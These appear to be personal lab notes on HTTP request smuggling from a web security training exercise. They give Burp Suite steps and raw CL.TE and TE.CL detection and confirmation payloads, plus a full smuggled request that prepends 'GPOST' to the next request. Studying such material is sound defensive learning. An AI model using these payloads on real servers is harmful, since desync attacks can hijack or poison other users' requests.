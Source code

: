 ____

HTTP /1
Change request method 

We have to receive HTTP /1 200 OK 

Extension: HTTP Request Smuggler -> Launch all scans

Repeater --> uncheck Update Content-Length 

![[Pasted image 20240815102523.png]]

![[Pasted image 20240815101327.png]]

![[Pasted image 20240815101531.png]]
# CL.TE
Detect

```
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

Confirm

```
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

send normal request

# TE.CL

Detect

```
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

Confirm

```
Content-Length: 3
Transfer-Encoding: chunked

1
G
0


```

send normal request

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

56
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 6

0


```


56 --> ![[Pasted image 20240815110132.png]]

CL1 ->  ![[Pasted image 20240815110239.png]]

CL2 -> ![[Pasted image 20240815110330.png]]

5+1 = 6




